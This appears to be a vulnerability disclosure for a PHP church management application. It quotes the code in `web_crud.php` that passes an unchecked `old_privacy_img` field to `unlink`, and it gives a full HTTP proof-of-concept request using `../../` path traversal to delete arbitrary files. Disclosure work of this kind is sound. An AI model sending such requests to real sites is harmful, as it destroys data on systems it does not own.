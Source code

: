 ### Vulnerability file address

In line 491 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_privacy_img']);`,` $_POST['old_privacy_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['privacyphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["privacyphoto"]["name"]);

            if (move_uploaded_file($_FILES["privacyphoto"]["tmp_name"], $filepath)) {
                $img12 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_privacy_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 381

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_privacy_img"

../../23.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="privacyphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `23.txt` file in the `church/` directory

![image-20250505170816202](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051708233.png)



Then we execute the above poc to attack

![image-20250505170806130](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051708172.png)



Files are deleted after the attack is successful

![image-20250505170824782](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051708816.png)